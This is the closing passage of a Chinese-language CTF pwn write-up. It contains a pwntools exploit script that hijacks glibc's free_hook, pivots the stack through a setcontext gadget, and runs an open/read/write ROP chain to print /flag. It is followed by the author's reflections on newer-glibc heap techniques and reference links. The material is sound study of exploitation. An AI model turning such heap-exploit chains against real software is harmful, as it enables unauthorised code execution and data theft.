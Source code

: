 ```python
    write = libc_base + libc.sym['write']
    setcontext = libc_base + libc.sym['setcontext']
    gets = libc_base + libc.sym['gets']
    gadget = libc_base + 0x1547a0  # mov rdx, [rdi+8]; mov rsp, rdx; call [rdx+0x20]
    bss = libc_base + 0x1ED648
    increase(0xe0, p64(0) * 5 + p64(0x81) + p64(free_hook) + b'\n')

    increase(0x70, p64(0) + b'\n')
    print("libc_base >>>", hex(libc_base))
    #                                   rdi+8             [rdi+8] = rdx                                                 rdx+0x20
    #                                                          rsp              rbp            rbp+8       
    increase(0x70, p64(gadget) + p64(free_hook + 0x10) + p64(pop_rbp_ret) + p64(free_hook) + p64(gets) + p64(0) + p64(mov_rsp_rdx_ret) + p64(0) + b'\n')
    decrease()
    payload = b'a'*0x28
    payload += p64(pop_rdi_ret) + p64(free_hook + 0xa8) + p64(pop_rsi_ret) + p64(0) + p64(open)
    payload += p64(pop_rdi_ret) + p64(3) + p64(pop_rsi_ret) + p64(bss) + p64(pop_rdx_pop_r12_ret) + p64(0x30)*2 + p64(read)
    payload += p64(pop_rdi_ret) + p64(1) + p64(write) + b'/flag\x00'
    sh.sendline(payload)
    sh.interactive()

```





## 碎碎念

这次 PWN 基本都是高版本的利用，对于我这个低版本堆都没打明白的人复现确实是等于整个技术栈完全新学了（），总而言之除了 `slot` 这个 0 解题全复现完了，可喜可贺可喜可贺。

## 参考资料

### webheap / webheap_revenge

[google / libnop](https://github.com/google/libnop)

### store

[[原创]House of cat新型glibc中IO利用手法解析 && 第六届强网杯House of cat详解](https://bbs.pediy.com/thread-273895.htm)

[setup](https://blog.mark0519.com/#/reproduce/221011-setup)

[project-sekai-ctf/sekaictf-2022/pwn/hello-world-setup/solution](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/pwn/hello-world-setup/solution)